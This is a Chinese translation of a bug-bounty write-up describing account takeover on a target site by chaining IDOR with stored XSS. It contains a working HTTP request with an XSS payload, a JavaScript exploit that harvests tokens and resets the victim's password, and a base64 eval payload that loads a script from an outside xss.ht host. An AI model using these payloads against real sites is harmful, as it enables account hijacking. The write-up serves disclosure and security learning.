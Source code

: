 # 零点击账户接管(IDOR + XSS)

> 原文：<https://infosecwriteups.com/zero-click-to-account-takeover-idor-xss-98dd6cce63c4?source=collection_archive---------0----------------------->

亲爱的朋友们，您好，这篇文章是关于我对 BugCrowd 程序的一个发现，该程序导致攻击者使用 IDOR 在受害者个人资料上注入 XSS 有效载荷，并发送更新密码功能的请求，直到更改受害者的密码。

![](img/9dabc2dafd331f0a665d350013c20358.png)

侦查是虫子赏金最重要的部分。你花多少时间侦察，你就有更多的机会找到关键的漏洞。易受攻击的域名被该公司收购，我使用了 [Crunchbase](http://crunchbase.com/) 和 Google Dork 来了解。我在这个新资产上发现了 2 个 P1、1 个 P2 和 2 个 P3。

IDOR 是更新配置文件上最简单的 IDOR 类型，攻击者能够通过更改**数据[用户][id]** 值参数来更新其他用户配置文件。

![](img/418d4b107d342e6794ed414d63566636.png)

当我发现这个漏洞，决定升级漏洞，用另一个东西编译。我意识到数据[用户][照片]反映在**img**标签的 src 中。在一个镜头中，我意识到能够关闭 IMG 标签的 src 值，但是无法关闭 img 标签。我使用 onerror 事件处理程序在受害者帐户上执行 Javascript。

```
POST /users/update_my_profile HTTP/1.1
Host: [www.target.com](http://www.target.com)... _method=POST&data[_Token][key]=6e8b90f4e7d7c694735d4f1c83db5968bf295f26&data[User][id]=808265&data[User][photo]=https://s3-us-west-2.amazonaws.com/target/nonexistent.png"+onerror=alert(origin)&data[User][photo_old]=&data[User][name]=Arman.Security&data[User][gender]=m&data[date][day]=&data[date][month]=&data[date][year]=&data[User][mobile_number]=&data[_Token][fields]=fa628e2b05473ddd3cbbee31d2d9c311eba4c9d5%3A&data[_Token][unlocked]=
```

这个回报是这样的:

![](img/d27e100072818d8bcc24622293ccf6e4.png)

现在我们有一个 IDOR 和 XSS，现在时间使用 XSS 帐户接管或访问受害者帐户的私人信息。

该网站在 Cookie 基础上工作，每个请求有 2 个验证令牌，其中一个是稳定的，另一个可根据每个功能进行更改。重要的是忽略旧密码来更新密码:)

我不得不编写一个漏洞，引导我收集所有受害者令牌，并在更新密码函数上测试可变令牌的所有模式。

这就是漏洞代码:

```
url = "https://www.target.com/editar-mi-contrasena";var token_keys_array = [];var token_fields_array = [];var params = [];var body = "";var xhr = new XMLHttpRequest();xhr.responseType = "document";xhr.open("GET", url, true);xhr.withCredentials = true;var xmlHttpRequest2 = new XMLHttpRequest();xmlHttpRequest2.open("POST", "https://www.target.com/editar-mi-contrasena", true);xmlHttpRequest2.setRequestHeader("Accept", "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8");xmlHttpRequest2.setRequestHeader("Referer", "https://www.target.com/editar-mi-contrasena");xmlHttpRequest2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");xmlHttpRequest2.setRequestHeader("Upgrade-Insecure-Requests", "1");xmlHttpRequest2.setRequestHeader("Sec-Fetch-Mode", "navigate");xmlHttpRequest2.setRequestHeader("Sec-Fetch-Dest", "document");xmlHttpRequest2.setRequestHeader("Sec-Fetch-User", "?1");xmlHttpRequest2.withCredentials = true;xmlHttpRequest2.onreadystatechange = function () {if (this.readyState == 4 && this.status == 302) {print("response=" + this.responseText);print("done");};};xhr.onreadystatechange = function() {if (xhr.readyState == 4){xhr.response.querySelectorAll("input[name='data[_Token][key]']").forEach( input => {token_keys_array.push(input.value)});xhr.response.querySelectorAll("input[name='data[_Token][fields]']").forEach( input => {token_fields_array.push(input.value)});for (let b = 0; b < token_fields_array.length; b++) {if (b == 2){body = "_method=POST&data%5B_Token%5D%5Bkey%5D="+token_keys_array[0]+"&data%5BUser%5D%5Bpassword%5D=EvilOrAngel&data%5BUser%5D%5Bpassword_confirmation%5D=EvilOrAngel&data%5B_Token%5D%5Bfields%5D="+encodeURIComponent(token_fields_array[b])+"&data%5B_Token%5D%5Bunlocked%5D=";xmlHttpRequest2.send(body);};};};};xhr.send();
```

将漏洞代码转换为 Base64 编码，然后设置 img 标签的 id 值，并通过**on error = eval(atob(this . id))**执行它。大概是这样的:

```
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzaHVudGVyLnhzcy5odCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= onerror=eval(atob(this.id))>
```

现在 IDOR 帮助在受害者帐户上存储 XSS 有效载荷，然后利用帮助我们接管受害者帐户。轻松男孩😎

![](img/6445261c716868c0f3f64f8fd92d863e.png)

[推特](https://twitter.com/m7arm4n)🐦